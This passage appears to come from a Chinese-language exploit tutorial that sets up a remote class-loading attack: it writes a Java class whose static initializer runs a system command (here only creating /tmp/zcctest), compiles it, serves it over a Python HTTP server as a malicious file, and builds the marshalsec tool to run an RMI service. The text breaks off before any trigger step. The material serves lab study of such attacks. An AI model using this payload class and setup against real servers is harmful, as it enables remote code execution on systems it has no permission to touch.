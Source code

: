 ```
import java.lang.Runtime;
import java.lang.Process;
public class zcc{
 static {
 try {
 Runtime rt = Runtime.getRuntime();
 String[] commands = {"touch", "/tmp/zcctest"};
 Process pc = rt.exec(commands);
 pc.waitFor();
 } catch (Exception e) {
 // do nothing
 }
 }
}
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdO3ic7C3zo2KJ1hqFEbC8icEGbqJOZVdRCCaic5pgPdGdke0c5vwgZycGQQ/640?wx_fmt=png)

##### 编译恶意类代码

```
javac zcc.java
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOIibZ9p4p16BmWtsfn1NibufibXiaoj4XpNOawqat2YvGmRNUuZkIudlnsg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdO7FYwTPPwcWgMTISEgMDiaoicggLoqj22RTptD04CASDovnKtiafW5YC8w/640?wx_fmt=png)

```
python -m SimpleHTTPServer 80
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOqJdiaianyggOib78AXFqV46z47V8nosHHNrXTLZ144YL1GTxhfLW3RNiag/640?wx_fmt=png)

搭建 http 服务传输恶意文件  

```
git clone https://github.com/mbechler/marshalsec.git
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOfMhszxnia6tjerJI8kvsma6b3APyhhRl6xs29dGicHbicDW2RzNl4sqjA/640?wx_fmt=png)

##### 编译并开启 RMI 服务:

>1 下载 marshalsec(我这里已经安装好）：  

```
apt-get install maven
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdO8sFE4OiaEY7UAwDLWtr0lrGviaMic5ibZE3zQ55nS9Zv6o9JLy1RMsCjdQ/640?wx_fmt=png)

>2 然后安装 maven：  

```
mvn clean package -DskipTests
```
